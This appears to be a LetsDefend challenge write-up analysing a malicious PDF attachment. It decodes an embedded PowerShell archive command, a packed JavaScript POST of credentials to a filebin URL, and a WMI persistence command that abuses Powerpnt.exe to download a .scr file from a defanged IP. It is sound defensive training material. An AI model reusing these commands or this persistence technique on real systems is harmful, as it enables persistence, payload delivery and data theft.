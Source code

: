 ```yaml
---
title: PDF Analysis
author: 0wlexe
date: 2022-12-11 20:55:00 +0800
categories: [Writeups, LetsDefend]
tags: [File Analysis, Malware Analysis]
pin: false
image:
  path: /assets/img/posts/pdf-analysis.png
  alt: Analysis of a PDF file in order to detect if there’s any signs of malicious behavior and possible indicators of compromise.
---
```


## Summary:
An employee has received a suspicious email:
  ```
From: systemsupdate@letsdefend.io
To: paul@letsdefend.io
Subject: Critical — Annual Systems UPDATE NOW
Body: Please do the dutiful before the deadline today.
Attachment: Update.pdf
Password: letsdefend
  ```

![Figure 01 - Simulation of the e-mail](https://miro.medium.com/v2/resize:fit:720/format:webp/1*e2ypH0L_zoVi--rIYGxseQ.png)

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**NOTE: Do not open in your local environment. It is a malicious file.**

This challenge was prepared by [@DXploiter.](https://twitter.com/DXploiter)

## Information we should find:

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

## Write-up

In order to analyze the contents of the .pdf file, we can use the strings command to extract all strings present in our specified file “Update.pdf”.

![Figure 02 - Extraction of the pdf file using strings command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*5B01xTv3ZVcjaovRnskcBg.png)

Taking a closer look at the strings of the file, it is possible to find a powershell command encoded in Base64.

![Figure 03 - Powershell encoded command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*MkaEM89trAJ-bI_cBygHIg.png)

By decoding the previous command with a decoder tool, there’s a text of reversed characters, we can tell it by taking an even closer look: `p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC`

![Figure 04 - Cryptii Decoder Tool, Base64 to text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*euw4Dx1jIhWHGRIdX1SLZQ.png)

Reversing the string, you should find the hidden powershell command: `Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p`

![Figure 05 - Code Beautify Tool, Reverse String](https://miro.medium.com/v2/resize:fit:720/format:webp/1*882lAlFlSasi_SXFGyqn5Q.png)

By analysing the previous command, we have gathered the following information about the payload created by the malware:

- `Compress-Archive` - Command to compress the archive;
- `Path C:%Documents%*` - Local directory targeted by the malware;
- `Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p` - Update the destination path to create a new folder **“zniwkejnnwnqw”** containing the file **“D0csz1p”** which looks similar to **’docs.zip’.**

Going back to the strings of our file, there’s more lines of code we should also pay attention to. From the following lines, we can “get” a POST request, an HTTP method designed to send data to the server from an HTTP client.

![Figure 06 - Lines of code streaming data from client with HTTP - POST request](https://miro.medium.com/v2/resize:fit:720/format:webp/1*z66QaTxsqSrft2oLzrS8fQ.png)

However, by looking at these lines of code alone, we can only assume there is a JavaScript Object Notation (JSON) to be sent, but it’s not very clear to who it is being sent because it’s obfuscated.

![Figure 07 - Custom function eval(p,a,c,k,e,d)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8hljApXrvvHnp2Djeo8YvA.png)

The `eval(p,a,c,k,e,d)` function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a obfuscated script.

In order to have a better look at the script, we can use a tool to format the previous lines of code into something more readable.

![Figure 08 - Javascript Beautifier Tool](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ihY6E-M1cQeWc0VK6BvI3Q.png)

From the previous function, we can observe the following information:

- The file is trying to interact with the external domain: `“https://filebin[.]net/0flqlz0hiz6o4l32/D0csz1p"` by a POST request;
- The data it is trying to send are credentials that should be armazenated in the var data = `‘{“login”:””,”password”:””}’`.

Now in order to find which tool would have been used for creating the persistence mechanism within the payload, we should go back to the strings of the PDF and analyse the contents of the /ObjectAction.

![Figure 09 - Powershell script within the contents of the /ObjectAction](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ogFKxxMT34rKFm0x0g6UsQ.png)

We can open the script on powershell in order to find out more information, but instead of actually running it, we should change the input from `invoke-Expression $LoadCode` (to run the script) into `“Write-Output $LoadCode”` (to print the content of the script).

![Figure 10 - Powershell ISE, Write-Output of the script](https://miro.medium.com/v2/resize:fit:720/format:webp/1*CQUlYjYT0L_FHdFVjHlubQ.png)

Useful information taken from the script:

- `Query=”SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’”` The suspicious script should get events from a remote location within 9000 seconds;
- `wmic /NAMESPACE:”\\root\subscription” PATH CommandLineEventConsumer CREATE Name=”RHWsZbGvlj”, ExecutablePath=”C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe ‘http://60.187.184[.]54/wallpaper482[.]scr'`  It is creating a process to run a specified executable program from a command line under the LOLBin **“Powerpnt.exe”**, which downloads the file **“wallpaper482.scr”** hosted in the suspicious IP domain **60.187.184[.]54;**

![Figure 11 - VirusTotal information on the suspicious IP](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_gTFVLWE5H4gnAQq5B6CkQ.png)

- Running the previous suspicious IP on VirusTotal, it is detected by five Antivirus’ vendors as a possible indicator of compromise located in China;

![Figure 12 - Information from the Whois Lookup](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xsx33ZmjPL3ANVCmH2Oaew.png)

- In order to confirm its location, we can get the following information from the Whois: the IP is hosted under the ISP **CHINANET-ZJ**, located in Shaoxing, Zhejiang, China.

That should be enough to answer all the questions from the challenge. Thank you for reading!



